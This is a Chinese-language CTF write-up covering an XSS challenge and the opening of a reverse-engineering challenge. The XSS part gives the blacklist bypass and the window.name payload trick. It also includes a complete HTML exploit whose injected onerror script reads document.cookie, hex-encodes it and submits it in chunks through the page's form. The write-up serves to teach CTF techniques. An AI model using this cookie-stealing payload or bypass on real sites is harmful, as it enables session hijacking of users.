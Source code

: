 ![Logic Gate Circuit](img/Logic Gate Circuit.png)

## 微积分计算小练习 2.0

和去年的 xss 题目差不多, 不过我一开始以为会是 csrf 攻击, 但是试了很久也没找到有漏洞能跨域获取 cookie 并发包, 最后发现原来就是普通的 xss 题.

题目禁用字符 `& > < ' ( ) \`` . , %`, 但是没有禁用 `\ "`. 于是使用`\x3cscript\x3ealert(1)\x3c/script\x3e`来绕过, 但是由于长度限制, 发现没办法直接执行.

于是去寻找有什么 popup 父子窗口通讯的方式, 将脚本从父窗口传入子窗口, 于是发现`window.open(url, target)`中的 target 传递给了子窗口的 name 属性中. 这样就可以利用它绕过字数限制了, 攻击 payload 为`"+name+"`.

然后书写 html, 值得注意的是由于禁用字符的原因, 这里的 flag 也需要进行转码, 我这里是转成了 Hex 然后提交的, 并且因为长度限制, 每次仅提交 20 字节.

```html

<!DOCTYPE html>
<html>

<head>
    <title>My Page</title>
</head>

<body>
    <script>
        const js = '<img src="" onerror=\'var flag = document.cookie; var result = ""; for (i=0; i<flag.length; i++) {hex = flag.charCodeAt(i).toString(16);result += ("000"+hex).slice(-2);}; document.querySelector(".form-control").value = result.substring(0, 20); document.querySelector(".btn-primary").click();\'><\/img>';
        const popup = window.open("http://web/result", js);
    </script>
</body>

</html>
```

接下来就是重复性劳动了, 修改 html 中`result.substring(0, 20)`获取下一段flag, 获得全部结果后拼接起来 Hex 转回原编码, 并且再用`urllib.parse.unquote_plus`解出 flag.

<del>当时我因为没有二次解码提交答案错了好多次</del>

## <del>逆向工程不需要 F5</del>

首先直接上 IDA, 进行一个 F5 的摁. 然后 emmm, 什么玩意(掀桌).

![F5 1](img/F5 1.png)

还是回去看汇编吧.

![ASM 1](img/ASM 1.png)

大致看一眼就能发现, 开头比较了`flag{}`的标识后就进入了 n 多循环. 其中参杂了很多的函数调用和 dll 调用, 看起来非常复杂, 很明显, IDA 对于这种 大量调用 dll 方法的程序没什么好办法. 但是进入 dll 函数内部一看, 基本都是执行的很简单的命令.

